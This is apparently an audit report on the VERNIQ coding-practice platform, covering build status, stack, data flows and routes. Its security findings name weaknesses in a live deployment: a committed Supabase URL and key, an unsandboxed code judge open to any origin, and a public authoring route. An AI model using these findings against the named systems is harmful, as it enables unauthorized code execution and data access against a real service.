





# VERNIQ - COMPREHENSIVE ARCHITECTURAL & SECURITY AUDIT REPORT

> **Platform:** VERNIQ Full-Stack Engineering Platform
> **Target Audience:** Engineering Leadership, Incoming AI Agents, Security Auditors
> **Audit Date:** October 2026

---

<!-- ============================================================ -->
<!-- PART: 00_executive_summary.md -->
<!-- ============================================================ -->

# 00 — Executive Summary

## What Is VERNIQ?

VERNIQ is a full-stack engineering learning and career acceleration platform targeting aspiring Software Development Engineers (SDEs) in India.
It combines:
- A curated 3,392-problem DSA catalog with an isolated online code judge
- Structured roadmaps, weekly sprint planners, and spaced-revision review
- A diagnostic skills assessment engine
- A Cloud CodeSpace (multi-file personal code vault) and NoteSpace (markdown notes)
- A Leaderboard with individual and campus-league rankings
- A Problem Authoring and CMS pipeline for curated problem ingestion
- A planned (not yet built) Socratic AI Mentor and Mock Interview Engine

**Target Users:** B.Tech / MCA students preparing for product SDE roles, FAANG/top-tier placements, campus placement drives, and GATE.

---

## Overall Completion Estimate: ~38%

| Area | Status | Rationale |
|---|---|---|
| Landing, Auth, Public pages | 90% | Fully working end-to-end |
| Problem catalog and filtering | 85% | Supabase-backed, 3,392 problems, live |
| Code Judge (run + submit) | 75% | Full harness, 5 languages, no Docker network isolation on Windows |
| Problem Workspace (Monaco editor) | 80% | Full UI + autosave + submission pipeline |
| Standalone IDE | 85% | Autosave fixed (latest commit), multi-tab, 5 languages |
| Dashboard | 75% | Sprint, revision, POTD all wired |
| StudyPlan / SprintPlan | 65% | Functional but AI-generated plan is frontend-only algorithm |
| DiagnosticView | 70% | 20 hardcoded MCQs; no backend persistence of results |
| Leaderboard | 70% | Real Supabase data; campus league uses seeded static data |
| Roadmaps | 50% | Frontend viewer exists; backend data sparse |
| CodeSpace / NoteSpace | 75% | CRUD complete; cloud sync works |
| ProblemAuthoring CMS | 60% | Full UI pipeline; batch operations not connected to AI backend |
| AI Mentor | 2% | Architecture README only; FastAPI service = requirements.txt and README skeleton |
| Mock Interview | 0% | Not started |
| Payments / Subscriptions | 0% | Not started; no Razorpay/Stripe integration present |
| Contests | 0% | WorkspaceSubView placeholder only |
| Community / Forums | 0% | Not started |
| Admin Panel | 5% | WorkspaceSubView placeholder behind AdminRoute |

---

## Tech Stack (exact versions from frontend/package.json and backend/*/requirements.txt)

### Frontend (frontend/package.json)
| Package | Version |
|---|---|
| react | ^18.3.1 |
| react-dom | ^18.3.1 |
| react-router-dom | ^6.28.1 |
| @supabase/supabase-js | ^2.49.1 |
| @monaco-editor/react | ^4.7.0 |
| lucide-react | ^1.16.0 |
| tailwindcss | ^3.4.17 |
| clsx | ^2.1.1 |
| tailwind-merge | ^2.6.0 |
| typescript | ^5.7.3 |
| vite | ^6.0.11 |
| @vitejs/plugin-react | ^4.3.4 |

### Backend Judge Service (backend/judge/requirements.txt)
| Package | Version |
|---|---|
| supabase | >=2.0.0 |
| pydantic | >=2.0.0 |
| python-dotenv | >=1.0.0 |
| psutil | >=5.9.0 |
| requests | >=2.31.0 |

### Backend AI Service (backend/ai/requirements.txt)
| Package | Version |
|---|---|
| fastapi | >=0.110.0,<1.0.0 |
| uvicorn[standard] | >=0.28.0,<1.0.0 |
| pydantic | >=2.6.0,<3.0.0 |
| pydantic-settings | >=2.2.0,<3.0.0 |
| httpx | >=0.27.0,<1.0.0 |
| python-jose[cryptography] | >=3.3.0,<4.0.0 |
| pgvector | >=0.2.5,<0.3.0 |
| psycopg2-binary | >=2.9.9,<3.0.0 |
| numpy | >=1.26.0,<2.0.0 |

### Infrastructure
- **Database:** PostgreSQL 16 via Supabase managed cloud
- **Auth:** Supabase Auth (email+password, GitHub OAuth)
- **Hosting:** Vercel (frontend SPA) + self-hosted or cloud VM (judge worker)
- **Judge Docker base:** ubuntu:24.04 with GCC 14, OpenJDK 21, Python 3.12, Node.js 20 + tsx, Go 1.22

---

## Repository Structure (2-3 levels)

```
VERNIQ/
+-- .env                     # Root env (Supabase URL + keys, judge config)
+-- .env.example             # Template (5 vars documented)
+-- .gitignore
+-- README.md
+-- package.json             # Workspace root
+-- package-lock.json
+-- backend/
¦   +-- ai/                  # AI FastAPI microservice (PLANNED - skeleton only)
¦   ¦   +-- requirements.txt
¦   ¦   +-- README.md
¦   +-- authoring/           # Problem authoring tooling (empty)
¦   +-- importer/            # Problem importer (empty)
¦   +-- judge/               # Online Judge Worker (ACTIVE)
¦   ¦   +-- .env             # Judge-specific env
¦   ¦   +-- Dockerfile       # ubuntu:24.04, sandboxuser
¦   ¦   +-- requirements.txt
¦   ¦   +-- load_test.py
¦   ¦   +-- measure_baseline.py
¦   ¦   +-- src/
¦   ¦   ¦   +-- config.py       # JudgeConfig Pydantic model
¦   ¦   ¦   +-- worker.py       # HTTP server + Supabase poller
¦   ¦   ¦   +-- runner/
¦   ¦   ¦       +-- cache.py
¦   ¦   ¦       +-- comparator.py
¦   ¦   ¦       +-- harness.py  # Language-specific driver injection (~2,600 lines)
¦   ¦   ¦       +-- profiles.py
¦   ¦   ¦       +-- sandbox.py
¦   ¦   +-- tests/
¦   ¦       +-- test_all_verdicts.py
¦   ¦       +-- test_judge_performance.py
¦   +-- roadmap/             # Roadmap tooling (empty)
¦   +-- supabase/            # Empty
+-- data/                    # Problem import data files
+-- docker/                  # Docker compose (not confirmed)
+-- docs/
¦   +-- database/
¦   ¦   +-- database-conventions.md
¦   +-- reports/
+-- frontend/
¦   +-- .env
¦   +-- vercel.json          # SPA rewrite rule
¦   +-- package.json
¦   +-- src/
¦       +-- App.tsx           # BrowserRouter + all routes (421 lines)
¦       +-- main.tsx          # React entry, AuthProvider, ThemeProvider, ToastProvider
¦       +-- components/
¦       ¦   +-- auth/         # ProtectedRoute, AdminRoute
¦       ¦   +-- authoring/    # ProductionDashboardTab, AuthoringQueueTab
¦       ¦   +-- dashboard/    # ActiveSprintBanner, ProblemOfTheDayCard, etc.
¦       ¦   +-- editor/       # MonacoCodeEditor wrapper
¦       ¦   +-- landing/      # LandingHeader, LandingCockpitMockup
¦       ¦   +-- learning/     # DifficultyBadge
¦       ¦   +-- planner/      # SprintCard, RebalanceModal
¦       ¦   +-- ui/           # Design system (actions, data, feedback, forms, layout, navigation)
¦       ¦   +-- workspace/    # ProblemWorkspace, TestCaseConsole, SplitPane
¦       +-- hooks/            # useAuth, useProblems, useUserProgress, useUserTelemetry, useRoadmap, useAutosave, useSubmissionRealtime, useProblemBySlug
¦       +-- lib/              # supabaseClient, submissionService, draftService, ideDraftService, curriculumData, colleges, utils
¦       +-- routes/           # 26 page view files
¦       +-- tests/            # autosave.test.ts, ideAutosave.test.ts
¦       +-- types/            # index.ts (620 lines)
+-- packages/                # Empty monorepo packages dir
+-- supabase/
    +-- .temp/               # Gitignored
```

> **CRITICAL NOTE:** No supabase/migrations/ directory is present in the local checkout.
> All schema lives only in the Supabase cloud dashboard - not version-controlled in this repo.

---

## Key Observations for the Receiving AI

1. **Supabase URL and anon key are hardcoded** in frontend/src/lib/supabaseClient.ts (lines 8 and 14) as string literals. The real production Supabase URL (cisddayhekkktcomnqhz.supabase.co) and a sb_publishable key are committed to source code. CRITICAL SECURITY FINDING.

2. The **judge runs without OS-level sandboxing** on Windows. On Linux (Docker), it uses sandboxuser but no seccomp, cgroups, or network namespace isolation.

3. **No migration files** exist in the repo. Schema drift risk is HIGH.

4. **AI service** (backend/ai/) has zero implementation - only a README and requirements.txt.

5. **Payments, contests, community** are entirely absent from the codebase.

6. The frontend is a **production-deployed SPA** on Vercel at https://verniq.vercel.app.

7. **CORS on judge worker** is set to Allow-Origin: * (wildcard), meaning anyone can call the judge HTTP API directly.


---

<!-- ============================================================ -->
<!-- PART: 01_phase_status.md -->
<!-- ============================================================ -->

# 01 — Phase Status

## Current Phase: Phase 3.5 / 4 (Judge + Dashboard fully operational; AI and payments not started)

The project uses an internal phasing system visible in comments across the codebase (e.g. "Phase 2", "Phase 3", "Phase 4", "Phase 5" referenced in WorkspaceSubView descriptions in App.tsx lines 253-376).

---

## Phase Status Table

| Phase | Name | Goal | Status | Key Files | Working | Missing |
|---|---|---|---|---|---|---|
| 0 | Foundation | Repo structure, design system, auth, types, Supabase baseline | [DONE] | frontend/src/types/index.ts, frontend/src/lib/supabaseClient.ts, frontend/src/hooks/useAuth.tsx, frontend/src/components/ui/, docs/database/database-conventions.md | Auth flows, design system, route shell, type definitions | Migration files not in repo |
| 1 | Problem Catalog | Problems table, public listing, filtering, pagination | [DONE] | frontend/src/routes/ProblemsView.tsx, frontend/src/hooks/useProblems.ts, frontend/src/lib/curriculumData.ts | 3,392 problems fetched from Supabase in 4 parallel batches; local fallback dataset; filtering by difficulty/domain/tag/status/workflow; pagination (50/page) | No server-side filtering; full dataset fetched client-side |
| 2 | Problem Workspace | Monaco editor, code execution, autosave, problem detail | [DONE] | frontend/src/components/workspace/ProblemWorkspace.tsx (39KB), frontend/src/components/workspace/TestCaseConsole.tsx (37KB), frontend/src/lib/draftService.ts, frontend/src/hooks/useAutosave.ts | Monaco editor, language switching, run code, submit, sample test results, autosave (localStorage + Supabase), submission history | Submission history list view is partial; no share-solution feature |
| 2.5 | Standalone IDE | Multi-tab scratchpad, run code, no problem context | [DONE] | frontend/src/routes/StandaloneIdeView.tsx (33KB), frontend/src/lib/ideDraftService.ts | 5 languages, multi-tab, autosave (localStorage), beforeunload flush, autosave status badge | No Supabase persistence for IDE state; anonymous only |
| 3 | Judge Worker | Code execution sandbox, harness injection, verdict, telemetry | [DONE] | backend/judge/src/worker.py, backend/judge/src/runner/sandbox.py, backend/judge/src/runner/harness.py (80KB), backend/judge/src/runner/profiles.py, backend/judge/src/runner/cache.py | HTTP server on :8080, /execute and /cancel endpoints, compilation cache, 5 languages, canonical test suite loading, telemetry, cancellation registry | No seccomp/cgroup sandbox on Linux; CORS = wildcard; memory measurement is simulated not actual |
| 3.5 | Dashboard | User home with sprint, POTD, revision, streak | [DONE] | frontend/src/routes/DashboardView.tsx | Active sprint banner, today's tasks, revision queue, streak display, campus rank estimate | Campus rank is a formula estimate not a real DB rank; POTD points not awarded |
| 4 | StudyPlan / SprintPlan | Personalized study plan generator, sprint management | [PARTIAL] | frontend/src/routes/StudyPlanView.tsx (59KB), frontend/src/routes/SprintPlanView.tsx (24KB) | Plan creation wizard with 4 goal types, daily schedule view, task completion, sprint CRUD via Supabase | Study plan generation algorithm is pure frontend JS with no backend AI; no external curriculum input |
| 4.5 | Diagnostic Assessment | MCQ skill assessment across 10+ DSA categories | [PARTIAL] | frontend/src/routes/DiagnosticView.tsx (33KB) | 20 hardcoded questions, scoring, confidence-level calculation, results display | Questions are static (hardcoded); results not persisted to Supabase user_diagnostics table in current flow |
| 4.6 | Leaderboard | Global and campus-league rankings | [PARTIAL] | frontend/src/routes/LeaderboardView.tsx (22KB), frontend/src/lib/colleges.ts | Real Supabase profiles fetched and ranked by score; global tab works | Campus league aggregation is built from seeded colleges data (frontend/src/lib/colleges.ts), not a real DB query; no pagination |
| 5 | Roadmaps | Structured learning path viewer | [PARTIAL] | frontend/src/routes/RoadmapsView.tsx (12KB), frontend/src/hooks/useRoadmap.ts | Roadmap list and step drill-down via Supabase; fallback static data | Step-to-problem associations may have sparse data; no progress tracking per roadmap step |
| 5.5 | RevisionView | Spaced-repetition review queue | [PARTIAL] | frontend/src/routes/RevisionView.tsx (33KB) | Review queue from Supabase user_revision_items; card-flip UI; mark as reviewed | No automated SRS interval calculation; intervals are manually adjustable |
| 6 | CodeSpace / NoteSpace | Personal code vault and markdown notes | [DONE] | frontend/src/routes/CodeSpaceView.tsx (26KB), frontend/src/routes/NoteSpaceView.tsx (30KB) | CRUD for user_codespaces and user_notes tables; Monaco editor for code, markdown editor for notes; pin, star, search | No sharing, no version history |
| 7 | ProblemAuthoring CMS | Problem content authoring, provenance review, technical review | [PARTIAL] | frontend/src/routes/ProblemAuthoringView.tsx (63KB), frontend/src/components/authoring/ | Full 7-step workflow UI (draft -> content_authoring -> content_review -> technical_review -> provenance_review -> judge_ready -> published), revision history, provenance sources, 9-point technical review checklist | AI-assisted authoring is UI-only; batch operations are UI-only; no backend AI endpoint connected |
| 8 | Profile / Settings | User profile and preferences | [DONE] | frontend/src/routes/ProfileView.tsx (5.9KB), frontend/src/routes/ProfileSettingsView.tsx (21KB) | Avatar display, stats, edit fields, preferred language, tab size, college affiliation, social links | No avatar upload; GitHub and LeetCode username not verified |
| 9 | Foundation / Architecture Pages | Public docs pages | [DONE] | frontend/src/routes/FoundationView.tsx, frontend/src/routes/ArchitectureView.tsx | Static informational pages | Pure static content, no CMS |
| 10 | AI Mentor | Socratic AI mentorship via FastAPI + pgvector | [PLANNED] | backend/ai/README.md, backend/ai/requirements.txt | Nothing | Entire FastAPI service; prompts; RAG pipeline; SSE streaming; JWT validation |
| 11 | Mock Interview | Interactive technical interview simulation | [PLANNED] | None | Nothing | Entire feature |
| 12 | Payments / Subscriptions | Premium plan checkout, subscription management | [PLANNED] | None | Nothing | Razorpay or Stripe integration; pricing page; webhook; plan enforcement |
| 13 | Contests | Real-time competitive programming rounds | [PLANNED] | App.tsx line 337-350 (placeholder route) | WorkspaceSubView placeholder only | Entire feature |
| 14 | Community / Forums | Discussion boards, question threads | [PLANNED] | None | Nothing | Entire feature |
| 15 | Admin Panel | Role management, system health monitoring, CMS | [PLANNED] | App.tsx line 391-404 (placeholder behind AdminRoute) | AdminRoute auth check works (checks profile.role === admin) | Actual admin UI; telemetry dashboard; user management |

---

## What Phase Is the Project At?

The project is at **Phase 7 (Content Authoring CMS)** in terms of the highest milestone touched, but core infrastructure is at **Phase 3-4**. Many features beyond Phase 6 are either placeholder UI or completely absent.

The most critical gap between "stated goals" and "actual code" is:
- The AI Mentor (Phase 10) which is the platform's primary differentiator has ZERO implementation.
- Payments (Phase 12) which is required for monetization has ZERO implementation.


---

<!-- ============================================================ -->
<!-- PART: 02_architecture.md -->
<!-- ============================================================ -->

# 02 — Architecture

## High-Level System Architecture



---

## Data Flow Diagrams

### 1. Login Flow

```
User fills LoginView.tsx form
  -> useAuth.signInWithEmail()
    -> supabase.auth.signInWithPassword({ email, password })
      -> Supabase Auth JWT returned, stored in localStorage by Supabase SDK
        -> onAuthStateChange fires
          -> fetchProfile(userId) queries public.profiles + public.user_problem_progress
            -> setProfile() updates AuthContext
              -> ProtectedRoute allows access
                -> redirect to /app/dashboard
```

**GitHub OAuth:**
```
User clicks "Continue with GitHub"
  -> useAuth.signInWithGitHub()
    -> supabase.auth.signInWithOAuth({ provider: 'github', redirectTo: '/app/dashboard' })
      -> Browser redirected to GitHub OAuth consent
        -> On return, Supabase handles JWT exchange
          -> onAuthStateChange fires -> same fetchProfile flow
```

---

### 2. Code Submission Flow

```
User presses "Submit" in ProblemWorkspace.tsx
  -> submitSolution(problemId, code, language, userId, ...)
      called from frontend/src/lib/submissionService.ts line 228
    -> executeViaJudgeWorker() sends POST to http://JUDGE_WORKER_URL/execute
      Body: { execution_id, language, source_code, problem_id, is_custom_run: false, mode: "SUBMIT" }
      -> JudgeWorker (worker.py /execute handler, line 309):
        -> fetch_canonical_test_cases(problem_id) from Supabase using service_role key
        -> runner.execute(language, source_code, test_cases)
          -> inject_harness(language, source_code) wraps code in driver template
          -> tempfile.TemporaryDirectory() created (sandbox/scratch dir)
          -> subprocess.run(compile_cmd) compiles code (Java/C++)
          -> For each test_case:
              subprocess.Popen(run_cmd, stdin=tc.input, timeout=time_limit)
              compare_outputs(stdout, expected_output)
          -> ExecutionResult returned
        -> HTTP response with JSON result
      -> Frontend updateSubmissionState() notifies listeners
    -> Background: supabase.from('submissions').insert(result) (async, non-blocking)
    -> Background: if verdict==accepted, supabase.from('user_problem_progress').upsert(solved)
    -> TestCaseConsole.tsx renders verdict
```

---

### 3. AI Mentor Flow (PLANNED - NOT IMPLEMENTED)

```
User types question in AI Mentor chat panel
  -> POST http://AI_SERVICE_URL/mentor/chat
    -> FastAPI validates Supabase JWT
    -> pgvector similarity search on curriculum embeddings
    -> Compose Socratic prompt with context
    -> Stream tokens via SSE back to frontend
      -> Frontend renders streaming response
```

**Current state:** The AI service directory contains only requirements.txt and README.md. No source code exists.

---

### 4. Payment Flow (PLANNED - NOT IMPLEMENTED)

No payment code exists anywhere in the codebase. No pricing page, no checkout flow, no webhook handler.

---

### 5. Contest Participation Flow (PLANNED - NOT IMPLEMENTED)

App.tsx line 337-350 renders a WorkspaceSubView placeholder with message "Next scheduled algorithmic round will be announced in Phase 4."

---

## Folder-by-Folder Explanation

### frontend/src/App.tsx
The root router. Uses BrowserRouter + Routes. Defines 35 routes across Public, Protected, and Admin tiers. All protected routes are wrapped in ProtectedRoute (checks session + user). Admin routes wrapped in AdminRoute (additionally checks profile.role === 'admin').

### frontend/src/main.tsx
React entry point. Wraps App in:
- AuthProvider (useAuth context)
- ThemeProvider (useTheme context - dark/light toggle)
- ToastProvider (useToast context for notifications)

### frontend/src/components/
Design system and feature components organized by category:
- auth/: ProtectedRoute, AdminRoute
- authoring/: ProductionDashboardTab, AuthoringQueueTab
- dashboard/: ActiveSprintBanner, ProblemOfTheDayCard, CategoryProgressModule
- editor/: MonacoCodeEditor (thin wrapper around @monaco-editor/react)
- landing/: LandingHeader, LandingCockpitMockup
- learning/: DifficultyBadge
- planner/: SprintCard, RebalanceModal
- ui/: Full design system - Button, Input, Select, Card, Table, Badge, Tabs, Modal, Skeleton, ErrorState, Toast, Container, PageHeader, AppShell, AppLayout, PublicLayout, DashboardLayout, Navbar, Sidebar

### frontend/src/hooks/
- useAuth.tsx: AuthContext provider. Handles session, profile, signIn, signUp, OAuth, signOut, preferredLanguage, updatePreferredLanguage, updateProfile, updateCollege.
- useProblems.ts: Fetches all 3,392 problems in 4 parallel Supabase batches.
- useUserProgress.ts: Fetches user's solved/attempted/todo status and revision flags for problems.
- useUserTelemetry.ts: Tracks user activity streaks, daily solve counts.
- useRoadmap.ts: Fetches roadmap data from Supabase.
- useAutosave.ts: Debounced autosave for ProblemWorkspace code drafts.
- useSubmissionRealtime.ts: Subscribes to Supabase realtime channel for submission updates.
- useProblemBySlug.ts: Fetches full problem detail by slug.
- useTheme.tsx: Dark/light theme toggle with localStorage persistence.

### frontend/src/lib/
- supabaseClient.ts: Creates Supabase client. CRITICAL: URL and anon key hardcoded as fallback strings (lines 8 and 14).
- submissionService.ts: runCode() and submitSolution() functions; manages in-memory submission state and listeners; calls judge worker HTTP API; asynchronously persists to Supabase.
- draftService.ts: localStorage + Supabase cloud dual-layer draft persistence for problem workspace.
- ideDraftService.ts: localStorage-only draft persistence for standalone IDE.
- curriculumData.ts: Hardcoded FALLBACK_PROBLEMS array (used when Supabase unreachable).
- colleges.ts: SEEDED_COLLEGES array for campus league frontend calculations.
- utils.ts: cn() function (clsx + tailwind-merge).
- telemetryFeedback.ts: User activity telemetry helper.

### frontend/src/routes/
26 view files. Each is a full page component. See 03_frontend_pages.md for details.

### frontend/src/types/index.ts
620-line type definition file. All domain types: UserRole, DifficultyLevel, ProgrammingLanguage, SubmissionVerdict, Submission, Problem, UserProfile, Roadmap, StudySprint, SprintTask, RevisionCard, UserStudyPlan, UserCodespace, UserNote, College, LeaderboardEntry, etc.

---

## State Management Approach

- **Auth State:** React Context (AuthContext) provided by AuthProvider in main.tsx.
- **UI State:** Local useState hooks in each page component.
- **Server Data:** Fetched directly from Supabase in useEffect or custom hooks. No global state library (no Redux, Zustand, React Query).
- **Submission State:** In-memory Map in submissionService.ts (module-level singleton). Listeners are registered per submissionId.
- **Draft State:** localStorage (synchronous) + Supabase (async background).
- **Theme:** localStorage + React Context.

---

## Routing Structure

| Path | Component | Access |
|---|---|---|
| / | LandingView | Public |
| /foundation | FoundationView | Public |
| /architecture | ArchitectureView | Public |
| /roadmaps | RoadmapsView | Public |
| /roadmaps/:slug | RoadmapsView | Public |
| /problems | ProblemsView | Public |
| /problems/:slug | ProblemWorkspace | Public (with auth for submit) |
| /leaderboard | LeaderboardView | Public |
| /courses | CoursesView | Public |
| /ide | StandaloneIdeView | Public |
| /authoring | ProblemAuthoringView | Public (SECURITY ISSUE - should be admin-only) |
| /login | LoginView | Public |
| /register | RegisterView | Public |
| /forgot-password | ForgotPasswordView | Public |
| /app/authoring | ProblemAuthoringView | Protected (user) |
| /app/dashboard | DashboardView | Protected |
| /app/profile | ProfileView | Protected |
| /app/learn | WorkspaceSubView (placeholder) | Protected |
| /app/practice | WorkspaceSubView (placeholder) | Protected |
| /app/revision | RevisionView | Protected |
| /app/codespace | CodeSpaceView | Protected |
| /app/notespace | NoteSpaceView | Protected |
| /app/diagnostic | DiagnosticView | Protected |
| /app/plan | SprintPlanView | Protected |
| /app/sprint-plan | SprintPlanView | Protected |
| /app/study-plan | StudyPlanView | Protected |
| /app/contests | WorkspaceSubView (placeholder) | Protected |
| /app/projects | WorkspaceSubView (placeholder) | Protected |
| /app/ai-mentor | WorkspaceSubView (placeholder) | Protected |
| /app/settings | ProfileSettingsView | Protected |
| /app/admin | WorkspaceSubView (placeholder) | Admin |
| * | NotFoundView | Public |

---

## API Client Layer

The frontend has NO dedicated API client library (no axios, no @tanstack/query).

All data fetching uses:
1. **Supabase JS SDK** (supabase.from().select()/.insert()/.update()/.upsert()/.delete()) for all database operations.
2. **Fetch API** directly for calling the judge worker HTTP endpoints (/execute, /cancel).

Error handling is per-call try/catch with console.warn() fallbacks. No centralized error handling or retry logic.

---

## Error Handling Pattern

- Auth errors: returned as { error: Error | null } from useAuth methods.
- Supabase queries: try/catch blocks; on error, fallback to local data (curriculumData.ts, colleges.ts).
- Judge worker errors: fetch failure caught in executeViaJudgeWorker(); returns failedSub with verdict: 'internal_error' or 'cancelled'.
- UI errors: Toast notifications via useToast() hook.
- Global unhandled errors: No global error boundary configured.


---

<!-- ============================================================ -->
<!-- PART: 03_frontend_pages.md -->
<!-- ============================================================ -->

# 03 — Frontend Pages

All routes are defined in frontend/src/App.tsx.

---

## 1. Landing Page (/)

- **File:** frontend/src/routes/LandingView.tsx (209 lines)
- **Access:** Public
- **Purpose:** Marketing/hero page; entry point for new users

### Sections (in order)
1. **Top Navigation** - LandingHeader component (links: Roadmaps, Problems, Leaderboard, IDE, Login/Dashboard)
2. **Hero Section** - H1 headline, subtitle, two CTAs ("Take Diagnostic Test" -> /app/diagnostic, "Open Standalone IDE" -> /ide)
3. **Trust bar** - Metric badges ("0.0s Sandbox Overhead", "256MB Hard Limits", etc.)
4. **Cockpit Mockup** - LandingCockpitMockup animated illustration
5. **Feature Cards** - Brain/Spaced Revision/Repeat icons with feature descriptions
6. **CTA Section** - "Start Your Engineering Sprint Today" + link to /register
7. **Footer** - Basic links

### Components Used
- LandingHeader (frontend/src/components/landing/LandingHeader.tsx)
- LandingCockpitMockup (frontend/src/components/landing/LandingCockpitMockup.tsx)
- lucide-react icons

### Status: [DONE]
No data fetching; fully static. Landing page renders immediately without any API calls.

---

## 2. Login Page (/login)

- **File:** frontend/src/routes/LoginView.tsx (8,517 bytes)
- **Access:** Public (redirects to /app/dashboard if already authenticated)
- **Purpose:** Email/password and GitHub OAuth login

### Sections
1. Left panel: VERNIQ branding, feature bullets
2. Right panel: Login form
   - Email input (type="email", required)
   - Password input (type="password", required, show/hide toggle)
   - "Forgot Password?" link -> /forgot-password
   - "Sign In" button -> useAuth.signInWithEmail()
   - Divider "or"
   - "Continue with GitHub" button -> useAuth.signInWithGitHub()
   - "Create Account" link -> /register

### Data Sources
- useAuth() - session state; if session exists, Navigate to /app/dashboard
- supabase.auth.signInWithPassword() called through useAuth
- supabase.auth.signInWithOAuth({ provider: 'github' })

### Error States
- Toast notification on auth failure with error message

### Status: [DONE]

---

## 3. Register Page (/register)

- **File:** frontend/src/routes/RegisterView.tsx (10,756 bytes)
- **Access:** Public
- **Purpose:** New user signup

### Sections
1. Registration form:
   - Full Name (text, required)
   - Username (text, required, lowercase letters/numbers/underscore)
   - Email (email, required)
   - Password (password, min 8 chars)
